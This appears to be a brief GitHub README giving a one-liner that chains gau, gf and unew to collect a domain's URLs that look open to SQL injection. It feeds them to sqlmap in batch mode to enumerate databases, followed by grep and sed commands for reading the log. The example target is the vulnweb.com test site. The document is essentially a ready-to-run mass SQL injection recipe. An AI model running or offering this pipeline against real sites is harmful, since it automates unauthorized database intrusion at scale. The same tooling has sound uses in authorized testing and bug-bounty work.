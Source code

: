 # OneLiner Mass SQLMap

## Tools
- <a href="https://github.com/sqlmapproject/sqlmap/">sqlmap</a>
- <a href="https://github.com/lc/gau">gau</a>
- <a href="https://github.com/tomnomnom/gf">gf</a>
- <a href="https://github.com/1ndianl33t/Gf-Patterns">gf-pattern</a> 
- <a href="https://github.com/dwisiswant0/unew">unew</a>
- grep
- sed

## One Liner Mass SQLMap

```
echo "vulnweb.com" | gau -subs -b jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt,exe | gf sqli | unew >> sqliurls.txt; sqlmap -m sqliurls.txt --batch --dbs | tee -a sqlmap.txt
```

* All log result stored in sqlmap.txt


## Quick find SQLMap result 

<img src="sed.jpg">

** Show line number of logs *sqlmap.txt if get databases with grep keyword *available databases **
```
grep -n "available databases" sqlmap.txt
```

** Slice Output with sed **
```
sed -n 'fromLine,ToLinep' sqlmap.txt
```

Thanks :)
Ve

Follow me <a href="https://twitter.com/Verry__D">@Verry__D</a>
Subscribe Infosec Telegram Channel <a href="https://t.me/sec7or">Tools & Writeups</a>

